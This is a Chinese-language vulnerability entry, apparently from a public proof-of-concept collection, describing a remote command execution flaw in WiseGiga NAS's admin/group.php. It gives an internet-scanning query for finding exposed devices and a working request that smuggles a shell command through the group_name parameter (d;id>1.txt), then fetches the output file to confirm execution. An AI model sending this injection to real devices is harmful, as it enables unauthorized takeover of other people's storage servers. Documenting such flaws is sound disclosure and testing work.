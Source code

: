 # 

# WiseGiga NAS group.php 远程命令执行漏洞

## 漏洞描述

WiseGiga 是一家销售网络连接存储（NAS ）产品的韩国公司。

WiseGiga NAS group.php文件存在远程命令执行漏洞，攻击者通过发送特定的请求包可以获取服务器权限

## 漏洞影响

```
WiseGiga NAS
```

## 网络测绘

```
app="WISEGIGA-NAS"
```

## 漏洞复现

主页面

![image-20220628113649787](./images/202206281144970.png)

验证POC

```
/admin/group.php?memberid=root&cmd=add&group_name=d;id>1.txt
```

![image-20220628114731029](./images/202206281147112.png)

```
/admin/1.txt
```

![image-20220628114740534](./images/202206281147595.png)

